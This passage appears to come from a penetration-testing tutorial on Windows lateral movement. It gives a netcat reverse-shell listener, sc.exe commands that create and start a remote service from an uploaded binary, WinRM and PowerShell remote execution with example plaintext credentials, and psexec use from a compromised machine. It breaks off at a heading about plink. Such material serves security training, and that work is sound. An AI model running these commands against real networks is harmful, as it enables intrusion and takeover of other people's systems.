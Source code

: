```
nc -lvp 4443
```

Finally from this session, we can proceed to create a new service remotely by using sc, associating it with our uploaded binary

```
C:\> sc.exe \\computername.domain create HACK binPath= "%windir%\myservice.exe" start= auto 

C:\> sc.exe \\computername.domain start HACK
```

To stop and delete the service, we can then execute the following commands

```
sc.exe \\TARGET stop HACK

sc.exe \\TARGET delete HACK
```

2- Remote Powershell (Winrm) Port 5985-5986. Both allow for execution of commands and requires Remote Management Users membership. We can use below command

```
winrs.exe -u:Administrator -p:Mypass123 -r:target cmd
```

We can achieve the same from Powershell, but to pass different credentials, we will need to create a PSCredential object

```powershell
$username = 'Administrator';
$password = 'Mypass123';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force; 
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
```

Once we have our PSCredential object, we can create an interactive session using the Enter-PSSession cmdlet

```powershell
Enter-PSSession -Computername TARGET -Credential $credential
```

Powershell also includes the Invoke-Command cmdlet, which runs ScriptBlocks remotely via WinRM. Credentials must be passed through a PSCredential object as well

```powershell
Invoke-Command -Computername TARGET -Credential $credential -ScriptBlock {whoami}
```

3- Psexec: Port 445 and requires Administrators group membership. You can execute below command from the compromised machine to launch psexec.exe and execute system commands on other remote hosts

```
psexec64.exe \\MACHINE_IP -u Administrator -p Mypass123 -i cmd.exe
```

#### Using PLINK.EXE
